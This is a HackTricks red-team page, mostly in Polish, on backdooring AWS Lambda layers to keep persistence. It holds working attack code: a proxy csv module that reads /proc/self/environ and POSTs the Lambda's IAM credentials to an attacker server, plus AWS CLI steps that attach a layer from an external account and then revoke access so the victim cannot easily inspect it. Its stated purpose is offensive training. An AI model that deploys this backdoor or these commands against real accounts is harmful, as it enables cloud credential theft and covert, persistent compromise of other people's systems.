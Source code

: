 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Warstwa Lambda to archiwum .zip, które **może zawierać dodatkowy kod** lub inne treści. Warstwa może zawierać biblioteki, [niestandardowe środowisko uruchomieniowe](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dane lub pliki konfiguracyjne.

Możliwe jest dołączenie do **pięciu warstw na funkcję**. Gdy dołączasz warstwę do funkcji, **zawartość jest wypakowywana do katalogu `/opt`** w środowisku wykonawczym.

Z **domyślnie**, **warstwy**, które tworzysz, są **prywatne** dla twojego konta AWS. Możesz zdecydować się na **udostępnienie** warstwy innym kontom lub **uczynić** warstwę **publiczną**. Jeśli twoje funkcje korzystają z warstwy opublikowanej przez inne konto, twoje funkcje mogą **nadal korzystać z wersji warstwy po jej usunięciu lub po cofnięciu twojego dostępu do warstwy**. Jednak nie możesz utworzyć nowej funkcji ani zaktualizować funkcji korzystających z usuniętej wersji warstwy.

Funkcje wdrożone jako obraz kontenera nie używają warstw. Zamiast tego pakujesz swoje preferowane środowisko uruchomieniowe, biblioteki i inne zależności do obrazu kontenera podczas budowania obrazu.

### Python load path

Ścieżka ładowania, której Python użyje w lambda, jest następująca:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Sprawdź, jak **drugie** i trzecie **pozycje** są zajmowane przez katalogi, w których **lambda layers** dekompresują swoje pliki: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Jeśli atakujący zdołałby **wprowadzić tylną furtkę** do używanej **warstwy lambda** lub **dodać jedną**, która będzie **wykonywać dowolny kod, gdy załadowana zostanie wspólna biblioteka**, będzie mógł wykonywać złośliwy kod przy każdym wywołaniu lambda.
{% endhint %}

Dlatego wymagania są następujące:

* **Sprawdź biblioteki**, które są **ładowane** przez kod ofiary
* Stwórz **bibliotekę proxy z warstwami lambda**, która będzie **wykonywać niestandardowy kod** i **ładować oryginalną** bibliotekę.

### Wstępnie załadowane biblioteki

{% hint style="warning" %}
Podczas nadużywania tej techniki napotkałem trudność: Niektóre biblioteki są **już załadowane** w czasie działania Pythona, gdy twój kod jest wykonywany. Spodziewałem się znaleźć takie rzeczy jak `os` czy `sys`, ale **nawet biblioteka `json` była załadowana**.\
Aby nadużyć tę technikę utrzymywania, kod musi **załadować nową bibliotekę, która nie jest załadowana**, gdy kod jest wykonywany.
{% endhint %}

Dzięki kodowi Pythona takiemu jak ten, możliwe jest uzyskanie **listy bibliotek, które są wstępnie załadowane** w czasie działania Pythona w lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
A oto **lista** (sprawdź, czy takie biblioteki jak `os` lub `json` są już dostępne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I oto lista **bibliotek**, które **lambda zawiera zainstalowane domyślnie**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring warstwy Lambda

W tym przykładzie załóżmy, że kod docelowy importuje **`csv`**. Będziemy **wprowadzać backdoor w imporcie biblioteki `csv`**.

Aby to zrobić, stworzymy **katalog csv** z plikiem **`__init__.py`** w ścieżce, która jest ładowana przez lambda: **`/opt/python/lib/python3.9/site-packages`**\
Następnie, gdy lambda zostanie wykonana i spróbuje załadować **csv**, nasz **plik `__init__.py` zostanie załadowany i wykonany**.\
Ten plik musi:

* Wykonać nasz ładunek
* Załadować oryginalną bibliotekę csv

Możemy zrobić to obie rzeczy za pomocą:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Następnie utwórz zip z tym kodem w ścieżce **`python/lib/python3.9/site-packages/__init__.py`** i dodaj go jako warstwę lambda.

Możesz znaleźć ten kod w [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Zintegrowany payload **wyśle dane uwierzytelniające IAM na serwer PIERWSZY RAZ, gdy zostanie wywołany lub PO zresetowaniu kontenera lambda** (zmiana kodu lub zimna lambda), ale **inne techniki** takie jak poniższe mogą być również zintegrowane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Zewnętrzne warstwy

Zauważ, że możliwe jest użycie **warstw lambda z zewnętrznych kont**. Co więcej, lambda może używać warstwy z zewnętrznego konta, nawet jeśli nie ma uprawnień.\
Zauważ również, że **maksymalna liczba warstw, które może mieć lambda, wynosi 5**.

Dlatego, aby poprawić wszechstronność tej techniki, atakujący mógłby:

* Wprowadzić backdoora do istniejącej warstwy użytkownika (nic nie jest zewnętrzne)
* **Utworzyć** **warstwę** w **swoim koncie**, dać **koncie ofiary dostęp** do używania warstwy, **skonfigurować** **warstwę** w Lambdzie ofiary i **usunąć uprawnienia**.
* **Lambda** nadal będzie mogła **używać warstwy**, a **ofiara nie** będzie miała łatwego sposobu na **pobranie kodu warstwy** (oprócz uzyskania powłoki rev wewnątrz lambdy)
* Ofiara **nie zobaczy zewnętrznych warstw** używanych z **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
